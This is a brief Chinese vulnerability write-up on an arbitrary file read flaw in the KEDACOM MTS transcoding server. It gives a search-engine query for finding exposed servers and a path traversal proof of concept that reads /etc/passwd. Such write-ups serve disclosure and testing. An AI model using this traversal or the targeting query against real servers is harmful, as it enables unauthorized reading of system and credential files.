 # 科达 MTS转码服务器 任意文件读取漏洞

## 漏洞描述

KEDACOM MTS转码服务器存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
MTS转码服务器
```

## 网络测绘

```
app="MTS转码服务器"
```

## 漏洞复现

登录页面

![image-20220525145422524](images/202205251454625.png)

验证POC

```
/../../../../../../../../etc/passwd
```

![](images/202205251454380.png)